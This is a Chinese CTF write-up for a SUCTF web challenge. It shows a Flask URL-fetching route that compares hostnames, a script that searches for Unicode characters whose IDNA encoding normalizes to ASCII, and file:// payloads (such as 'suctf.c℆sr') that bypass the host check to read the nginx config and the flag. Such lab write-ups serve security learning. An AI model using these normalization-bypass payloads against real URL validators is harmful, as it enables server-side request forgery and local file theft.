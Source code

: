 PTT：[BlackHat2019](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)
题目给出了源码：
```php
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
   
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->
```
前两个判断 host 是否是 suctf.cc ，如果不是才能继续。然后第三个经过了 decode('utf-8') 之后传进了 urlunsplit 函数，在第三个判断中又必须要等于 suctf.cc 才行
Nginx的配置文件目录为：`/usr/local/nginx/conf/nginx.conf`

在网上找到了一个师傅的脚本，用来寻找可用字符：
```python
# coding:utf-8 
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass
```
![](https://img-blog.csdnimg.cn/20200517113250853.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
构造payload：`file://suctf.c℆sr/local/nginx/conf/nginx.conf`
或者`file://suctf.cℂ/usr/local/nginx/conf/nginx.conf`
![](https://img-blog.csdnimg.cn/20200517112836516.png)
读取flag：`file://suctf.c℆sr/fffffflag`即可

